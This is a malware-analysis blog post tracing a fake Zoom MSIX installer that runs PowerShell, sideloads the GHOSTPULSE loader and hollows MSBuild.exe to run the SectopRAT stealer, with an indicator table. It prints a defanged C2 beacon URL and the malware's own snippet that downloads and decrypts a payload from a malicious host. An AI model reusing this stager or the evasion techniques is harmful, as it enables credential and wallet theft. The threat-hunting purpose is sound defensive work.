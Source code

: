 ```yaml
---
layout: post
title: SectopRAT Buffet with a side of GHOSTPULSE
date: 2024-05-08 22:00:00 +1030
description: 
image: 
category:
  - Theat_Hunting
  - Malware Analysis
tags:
  - malware_analysis
  - sectoprat
  - ghostpulse
  - msix
  - cyber_culture
  - C2
mermaid: true
img_path: /assets/img/
pin: true
---
```

![Zoom Installer](cyber_rat_tophat_700x300.jpg){: .shadow width="1200" height="630"}

---
## IN THE BEGINNING

Just another day in paradise with a fresh cup of coffee in hand, my Pomodoro clock ticking away 25 minutes, and the diffuser gently releasing its aroma. Fast forward a few and we are now looking at a campaign using signed MSIX App Packages disguised as legitimate installers for popular applications — Zoom Installer, in this case. Unbeknownst to the unsuspecting target, these seemingly innocent MSIX app packages conceal a malicious PowerShell script, setting off the multi-stage stealthy GHOSTPULSE loader, ultimately leading to the injection of a SectopRAT payload, a voracious .NET information stealer (aka ArechClient2), into `MSBuild.exe`{: .filepath}.

As described by MSFT, *"MSIX is a Windows app package format that combines the best features of MSI, .appx, App-V, and ClickOnce to provide a modern and reliable packaging experience"*. In Windows 10 and above, all applications are required to be signed with a valid code signing certificate. Regrettably, cheeky threat actors manage to acquire these certificates, and it's not uncommon for them to be traded in the deepest corners of the web.

Upon double-clicking `Zoom-x64.msix`{: .filepath}, an installation window promptly appears, mirroring the familiar interface of most other installers that users are accustomed to.

![Zoom Installer Window](Zoom-x64_execution.png){: .shadow }
_Zoom Installer Window - MSIX_

Upon the user's selection of `Install`, the latent PowerShell `script 2011_allso.ps1`{: .filepath} springs into action. It promptly initiates an initial GET request to the Command and Control (C2) server, signaling the commencement and concurrently transmitting system information from the compromised device—all cleverly encapsulated within the URL (Antivirus, Domian, Operating System). Without digging into the ins and outs of PSF, the malicious PowerShell script to be executed is defined within `config.json`{: .filepath} that is contained within the MSIX package.

![MSIX config](config_script.png){: .shadow }
_MSIX config.json_

**Example GET Request to the C2 Server:**
```console
hxxps[://]3010cars[.]xyz/?status=start&av=Windows Defender&domain=JUICYPANTS&os=Microsoft+Windows+10
```

## THE LATENT POWERSHELL SCRIPT
Venturing further into the intricacies of the PowerShell script, it becomes evident that the primary goal of `2011_allso.ps1`{: .filepath} is to retrieve a GPG-encrypted file named `robo-claim[.]site/order/allso.tar.gpg`{: .filepath}. Following this, the script decrypts the file and proceeds to execute `TPAutoConnect.exe`{: .filepath}, cunningly disguised as a renamed `vmtoolsd.exe`{: .filepath} binary. This binary, a featured component of the VMware user process, facilitates essential features like copy-paste, drag-and-drop within the VMware environment. A curious observer would also catch the passphrase `putin` being used for decryption.

![PowerShell Script Flow](script_flow.png){: .shadow }
_PowerShell Script Breakout_

**PowerShell Snippet - Retrieiving and Decrypting SectopRAT:**
```powershell
$url = "hxxps[://]robo-claim[.]site/order/allso.tar.gpg"
$outputPath = "$env:APPDATA\$xxx.gpg"
Invoke-WebRequest -Uri $url -OutFile $outputPath
echo 'putin' | .$env:APPDATA\gpg.exe --batch --yes --passphrase-fd 0 --decrypt --output $env:APPDATA\$xxx.rar $env:APPDATA\$xxx.gpg
```

![VMware Digital Signature](vmware_digital_sig.png){: .shadow }
_VMware Digital Signature_

At this stage, it is fair to asses that the `TPAutoConnect.exe (vmtoolsd.exe)`{: .filepath} binary may be being used to perform some form of sideloading. 

## DECRYPTING THE TAR ARCHIVE

Decryption of the TAR file spills the beans - inside, we've got `TPAutoConnect.exe (vmtoolsd.exe)`{: .filepath}, a bunch of DLLs, and the unexpected guest, `fibrolite.dwg`{: .filepath}. Doesn't quite fit the Zoom Installer vibe, right? Now, check out `fibrolite.dwg`{: .filepath} magic numbers – `89 50 4E 47 0D 0A 1A 0A`, initially screaming a .png graphic file. But, hold your horses. When `TPAutoConnect.exe`{: .filepath} takes the stage, it decrypts `fibrolite.dwg`{: .filepath} and pulls off a sneaky move by creating a suspended `MsBuild.exe`{: .filepath} process. This innocent-looking process, though, gets the VIP treatment with a SectopRAT injection. Big shoutout to the folks at [Elastic Security Labs](https://www.elastic.co/security-labs/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks); they've dissected GHOSTPULSE and its stages like a boss. If you're itching for a deeper dive, their breakdown is a must-read. Everything mentioned here is like the calling card of the same sneaky campaign.

A sanity check of all the .DLL's with Sigcheck we see that digital signature of `glib-2.0.dll`{: .filepath} could not be verified. This could indicate tampering and/or corruption, ultimately the integrity of the DLL is not guaranteed; most likely our sideloading specimen

![Sigcheck](sigcheck.png){: .shadow }
_Sigcheck Signature could not be verified_

## THE JUICE - SECTOPRAT

Using the [Ghost Pulse Payload Extractor](https://github.com/elastic/labs-releases/tree/main/tools/ghostpulse), we are able to extract the payload from the encrypted GHOSTPULSE file.

![Ghostpulse Payload Extractor](ghost_pulse_extractor.png){: .shadow width="1200"}
_Ghostpulse Payload Extractor_

![PEStudio](pe_studio.png){: .shadow width="1200"}
_PEStudio - Ghost Pulse Payload_

Diving into the .NET binary without de-obfuscating, we can clearly see the information stealing capabilities of SectopRAT; scanning for Browsers, Wallets, Accounts, Processes, and files to name a few.

![SectopRAT Scan Critera](scan_details_criteria.png){: .shadow }
_SectopRAT Scan Criteria_

![SectopRAT Scan Arguments](scan_details_args.png){: .shadow }
_SectopRAT Scan Arguments_

When executed the malware creates the suspended child process `MSBuild.exe`{: .filepath}. This process appears to be hollowed out with the SectopRAT payload. A couple of indicators include a hanging `MSBuild.exe`{: .filepath} process with no arguments,  the `Current directory` path of `MSBuild.exe`{: .filepath} being the path the malware was executed from, and by scanning running processes with pe-sieve (developed by @hasherezade), it identified that the PE `MSBuild.exe`{: .filepath} was replaced, reference by the `is_pe_replaced: 1` result. And of course, simply dumping this process and doing analysis would reveal much of what has already been mentioned.

Of note, as part of the encryption process, the environment variable `KKHIECNPOYLCZOXDETZX` is created which points to an encrypted file at `%LOCALAPPDATA%\Temp\232135f6`{: .filepath}

![SectopRAT Scan Arguments](hollow_msbuild.png){: .shadow }
_Possible Process Hollowing of a suspended process_

In this sample, the final payload calls out to `hxxps[:]//pastebin[.]com/raw/cLika3dt`{: .filepath} which contained the C2 address `138.201.125[.]92`{: .filepath}. This C2 was also identified in the network connections upon execution of the malware. along with the string `AfkSystem`. Both indicators indicative of other previously reported SectopRAT samples in the wild.

![Pastebin](pastebin.png){: .shadow }
_C2 Address referenced within Pastebin_

![C2](network_connection.png){: .shadow }
_C2 Network Connections_
  
And lastly, to ensure it lives to fight another day the malware establishes persistence by creating the startup item `Dby_control.lnk`{: .filepath} which points to the original `TPAutoConnect.exe`{: .filepath} mentioned earlier.


---
## OBSERVATIONS

| Context            | Observable                                                                                                       | Indicator Type |
| ------------------ | ---------------------------------------------------------------------------------------------------------------- | -------------- |
| C2 within Pastebin | 138.201.125[.]92:15647                                                                                           | IP-v4          |
| Pastebin           | hxxps[://]pastebin[.]com/raw/cLika3dt                                                                            | url            |
| PS Script          | 2011_allso.ps1<br>**SHA256:** c6f8edcb9bff1efe62dcaddc90c27df67bf3f64d951a5f08089f2f1c5a7981d1                   | File           |
| Persistence        | %AppData%\Microsoft\Windows\Start Menu\Programs\Startup\Dby_control.lnk                                          | File           |
| Persistence        | TPAutoConnect.exe (vmtoolsd.exe)<br>**SHA256:** bf933ccf86c55fc328e343b55dbf2e8ebd528e8a0a54f8f659cd0d4b4f261f26 | File           |
| SecropRAT          | fibrolite.dwg<br>**SHA256:** f88d3d755ed1d8e79165c74c2c8fc7eefc8df2e909be73adfe3822f65107e5cc                    | File           |
| MSIX               | Zoom-x64.msix<br>**SHA256:** 2ea9ab31124e6639b635ef605473d433b99536d6465e23ab8f0375db35244dce                    | File           |
| Encryped Archive   | allso.tar.gpg<br>**SHA256:** d92178fb77200cabb9a7b36f0b93bcb7f0edd47acaafabca4a420a68f0eefcfd                    | File           |
| Sideload DLL       | glib-2.0.dll<br>**SHA256:** 32ef20dbf95940528359604947d2ed36bc81e2832000ee32af375e0fb3821684                     | File           |





---
### References:

* https://github.com/elastic/labs-releases/tree/main/nightMARE
* https://www.google.com/search?channel=fs&client=ubuntu-sn&q=ghost+pulse+elastic+labs
